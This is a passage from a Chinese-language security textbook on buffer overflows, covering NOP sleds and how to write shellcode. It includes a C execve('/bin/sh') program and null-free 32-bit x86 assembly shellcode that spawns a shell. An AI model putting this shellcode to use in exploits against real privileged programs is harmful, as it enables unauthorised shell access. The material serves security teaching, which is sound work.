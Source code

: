 +   提升几率：为了提升成功的几率，我们可以向恶意代码的顶部添加许多 NOP 指令。NOP 是个特殊的指令，除了步进到下一条指令之外，不做任何事情。因此，只要猜测的地址指向了 NOP 指令之一，攻击就成功了。使用这些 NOP，猜测指向恶意代码的正确地址的几率就会显著增加。

### 2.6 恶意代码：Shellcode

在前面的讨论中，我们假设恶意代码已经是可用的。这个章节中，我们会讨论如何编写这种恶意代码。

如果我们可以让特权程序执行我们的代码，我们想要它执行什么代码呢？最强大的代码就是调用 Shell，所以我们可以在其中执行任何我们想要执行的代码。目标为加载 Shell 的程序就叫做 Shellcode。为了了解如何编写 Shellcode，让我们来看看下面的 C 程序：

```c
#include <stdio.h>
int main( ) { 
    char *name[2];
    name[0] = "/bin/sh"; 
    name[1] = NULL; 
    execve(name[0], name, NULL);
}
```

在我们将上面的程序编译为二进制代码之后，我们可以在缓冲区溢出工集中，直接使用二进制代码作为 Shellcode 嘛？事情并不是那么容易。如果我们直接使用上面的代码，就会有几个问题：

+   首先，为了调用系统调用`execve`，我们需要知道`/bin/sh`的地址。字符串保存在哪里，以及如何获取字符串位置，并不是复杂的问题。

+   其次，代码中有一些空字符。这会使`strcpy`停止，如果漏洞由`strcpy`导致，我们就会有问题。

为了解决第一个问题，我们可以将字符串`/bin/sh`压入栈中，之后使用栈指针`esp`获取字符串位置。为了解决第二个问题，我们可以将包含 0 的指令转换为另一条不包含 0 的指令，例如，为了将 0 储存到寄存器中，我们可以使用 XOR 指令，而不是直接将寄存器赋为 0。下面是个用汇编语言编写的 Shellcode 的例子：

```asm
Line 1: xorl %eax,%eax 
Line 2: pushl %eax        # push 0 into stack (end of string) 
Line 3: pushl $0x68732f2f # push "//sh" into stack 
Line 4: pushl $0x6e69622f # push "/bin" into stack 
Line 5: movl %esp,%ebx    # %ebx = name[0] 
Line 6: pushl %eax        # name[1] 
Line 7: pushl %ebx        # name[0] 
Line 8: movl %esp,%ecx    # %ecx = name 
Line 9: cdq               # %edx = 0 
Line 10: movb $0x0b,%al 
Line 11: int $0x80        # invoke execve(name[0], name, 0)
```

Shellcode 中的一些地方需要注意：

+   首先，第三条指令将`/sh`压入到栈中。这是因为我们需要一个 32 位数值，`/sh`只有 24 位，幸运的是，`//`等价于`/`，所以我们可以使用两个斜杠字符。

+   其次，在调用`execve`系统调用之前，我们需要将`name[0]`（字符串地址），`name`（数组地址），以及`NULL`储存到`%ebx`、`%ecx`以及`%edx`寄存器。

    +   第五行将`name[0]`储存到`%ebx。
    +   第八行将`name`储存到`%ecx`。
    +   第九行将`%edx`设为 0。有其他将它设为 0 的办法（例如`xorl %edx, %edx`）。这里使用的`cdq`是个简单的指令，将 EAX 最高位（第 31 位）复制到 EDX 寄存器的每一位，也就是将`%edx`设为 0。
    
+   再者，`execve`系统调用在我们将`%al`设为 11 并执行`int $0x80`时调用。

如果我们将上面的代码转换为二进制，并将其储存在数组中，我们就行可以在 C 程序中调用：
